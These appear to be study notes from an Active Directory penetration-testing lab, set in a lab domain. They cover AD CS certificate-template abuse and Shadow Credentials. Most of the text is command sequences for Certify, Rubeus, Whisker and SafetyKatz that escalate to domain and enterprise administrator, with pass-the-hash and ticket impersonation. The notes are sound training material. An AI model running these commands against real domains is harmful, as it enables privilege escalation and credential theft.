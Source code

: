 
• Active Directory Certificate Services (AD CS) enables use of Public Key
Infrastructure (PKI) in active directory forest.
• AD CS helps in authenticating users and machines, encrypting and
signing documents, filesystem, emails and more.
• "AD CS is the Server Role that allows you to build a public key
infrastructure (PKI) and provide public key cryptography, digital
certificates, and digital signature capabilities for your organization."

###### Terminology

• CA - The certification authority that issues certificates. The server with AD CS
role (DC or separate) is the CA.
• Certificate - Issued to a user or machine and can be used for authentication,
encryption, signing etc.
• CSR - Certificate Signing Request made by a client to the CA to request a
certificate.
• Certificate Template - Defines settings for a certificate. Contains information
like - enrolment permissions, EKUs, expiry etc.
• EKU OIDs - Extended Key Usages Object Identifiers. These dictate the use of a
certificate template (Client authentication, Smart Card Logon, SubCA etc.)


###### Abuse

![[Pasted image 20250211215254.png]]


![[Pasted image 20250211215322.png]]

#### AD CS Enumeration

We can use the Certify tool (https://github.com/GhostPack/Certify) to
enumerate (and for other attacks) AD CS in the target forest:

```
Certify.exe cas
```

Enumerate the templates.:

```
Certify.exe find
```

Enumerate vulnerable templates:

```
Certify.exe find /vulnerable
```


#### Priv Esc - Across domain trusts – AD CS


  Common requirements/misconfigurations for all the Escalations
	– CA grants normal/low-privileged users enrollment rights
	– Manager approval is disabled
	– Authorization signatures are not required
	– The target template grants normal/low-privileged users enrollment
	   rights



Note that this does not show up when we enumerate vulnerable
templates in Certify. Use:

```
Certify.exe find
Certify.exe find /enrolleeSuppliesSubject
```

We have the certificate of pawadmin that we extracted from us-jump.

Use the certificate to request a TGT for pawadmin and inject it:

```
C:\AD\Tools\Rubeus.exe asktgt /user:pawadmin
/certificate:C:\AD\Tools\pawadmin.pfx
/password:SecretPass@123 /nowrap /ptt
```

Request a certificate for DA!

```
C:\AD\Tools\Certify.exe request /ca:Techcorp-
DC.techcorp.local\TECHCORP-DC-CA
/template:ForAdminsofPrivilegedAccessWorkstations
/altname:Administrator
```

Convert from cert.pem to pfx:

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -
keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export
-out C:\AD\Tools\DA.pfx
```

Request DA TGT and inject it:

```
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator
/certificate:C:\AD\Tools\DA.pfx /password:SecretPass@123 /nowrap
/ptt
```

Request a certificate for EA!

```
C:\AD\Tools\Certify.exe request /ca:Techcorp-
DC.techcorp.local\TECHCORP-DC-CA
/template:ForAdminsofPrivilegedAccessWorkstations
/altname:Administrator
```

Convert from cert.pem to pfx:

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -
keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export
-out C:\AD\Tools\EA.pfx
```

Request EA TGT and inject it:

```
C:\AD\Tools\Rubeus.exe asktgt /user:techcorp.local\Administrator
/dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx
/password:SecretPass@123 /nowrap /ptt
```


#### Shadow Credentials

• Users and Computers have msDS-KeyCredentialLink attribute that
contains the raw public keys of certificate that can be used as an
alternate credential.

• This attribute is used when we configure Windows Hello for Business
(WHfB)

• By default, Key Admins and Enterprise Key Admins have rights to modify
the msDS-KeyCredentialLink attribute.

• User to User (U2U) Service Ticket can be requested to decrypt the
encrypted NTLM_SUPPLEMENTAL_CREDENTIAL entity from Privilege
Attribute Certificate (PAC) and extract NTLM hash.

• Pre-requisites to abuse Shadow Credentials:
- AD CS (Key Trust if AD CS is not present)
- Support for PKINIT and at least one DC with Windows Server 2016 or
above.

- Permissions (GenericWrite/GenericAll) to modify the msDS-
KeyCredentialLink attribute of the target object.


##### Abusing User Object

Enumerate the permissions.

```
Find-InterestingDomainAcl -ResolveGUIDs |
?{$_.IdentityReferenceName -match "StudentUsers"}
```

Add the Shadow Credential.

```
Whisker.exe add /target:supportXuser
```

Using PowerView, see if the Shadow Credential is added.

```
Get-DomainUser -Identity supportXuser
```

Request the TGT by leveraging the certificate.

```
Rubeus.exe asktgt /user:supportXuser
/certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW....
/password:"1OT0qAom3..." /domain:us.techcorp.local
/dc:US-DC.us.techcorp.local /getcredentials /show
/nowrap
```

Inject the TGT in the current session or use the NTLM hash

```
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```

#### Abusing Computer Object

Enumerate the permissions.

```
Find-InterestingDomainAcl -ResolveGUIDs |
?{$_.IdentityReferenceName -match 'mgmtadmin’}
```

Add the Shadow Credentials.

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:mgmtadmin
/domain:us.techcorp.local
/aes256:32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b4
19db24c00f /run:cmd.exe" "exit"
```

```
Whisker.exe add /target:us-helpdesk$
```


Using PowerView, see if the Shadow Credential is added.

```
Get-DomainComputer -Identity us-helpdesk
```

Request the TGT by leveraging the certificate.

```
Rubeus.exe asktgt /user:us-helpdesk$
/certificate:MIIJ0AIBAzCCCYwGCSqGSIb...
/password:"ViGFoZJa..." /domain:us.techcorp.local
/dc:US-DC.us.techcorp.local /getcredentials /show
```

Request and Inject the TGS by impersonating the user.

```
Rubeus.exe s4u /dc:us-dc.us.techcorp.local
/ticket:doIGkDCCBoygAwIBBaEDAgEW...
/impersonateuser:administrator /ptt /self
/altservice:cifs/us-helpdesk
```


#### Attacking Azure AD Integration




